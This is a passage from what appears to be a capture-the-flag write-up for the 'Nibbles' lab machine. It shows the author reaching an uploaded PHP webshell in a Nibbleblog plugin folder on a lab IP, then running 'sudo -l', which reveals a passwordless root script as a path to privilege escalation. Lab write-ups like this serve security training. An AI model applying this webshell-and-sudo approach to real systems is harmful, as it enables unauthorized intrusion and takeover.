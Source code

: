 ![Warnings ignore](/assets/imgs/nibbles/warnings.PNG)

And now go to :

```
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```

![Powny shell](/assets/imgs/nibbles/powny_shell.PNG)

I have a webshell as the user ! Now it's time to root ! First things that I do, is to check if I can run commands as someone else :

```
sudo -l
Matching Defaults entries for nibbler on Nibbles:
	env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
	(root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```
